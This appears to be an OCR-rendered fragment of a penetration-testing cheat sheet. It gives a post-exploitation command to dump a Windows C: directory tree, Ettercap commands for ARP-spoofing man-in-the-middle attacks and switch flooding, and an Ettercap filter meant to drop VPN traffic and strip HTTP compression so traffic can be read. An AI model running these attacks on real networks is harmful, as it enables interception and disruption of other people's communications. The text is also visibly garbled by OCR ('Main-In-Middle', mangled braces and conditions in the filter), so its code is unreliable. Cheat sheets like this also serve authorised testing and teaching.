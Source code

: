### Create a new process and command tree c:\

```text
execute -H -f cmd.exe -a '/c tree /F /A c:\ C:\temp\tree.txt'
```

## Ettercap software

### Main-In-Middle attack using filters

```text
ettercap.exe -I iface -M arp -Tq -F file.ef MACs / IPs / Ports
MACs / IPs / Ports
#i.e.: // 80,443 // = any MAC, any IP, ports 80,443
```

### Main-In-Middle attack on subnet with functional fitters

```text
ettercap -T -M arp -F filter // //
```

### Switch flood attack

```text
ettercap -TP rand flood
```

## Ettercap filters

### Compile ettercap filters


```text
etterfilter filter.filter -o out.ef
```

### Example filter - remove vpn traffic and decrypt http traffic

```text
if lip.proto == UDP && udp.dst == 500) I
     drop();
     kill(); }
if I ip.src == 'ip' ) (
     if (tcp.dst == 80) (
         if (search(DATA.data, "Accept-Encoding")) (
             replace("Accept-Encoding","Accept-Rubbish!");
             msg("Replaced Encoding\n");
         }
     }
}
```
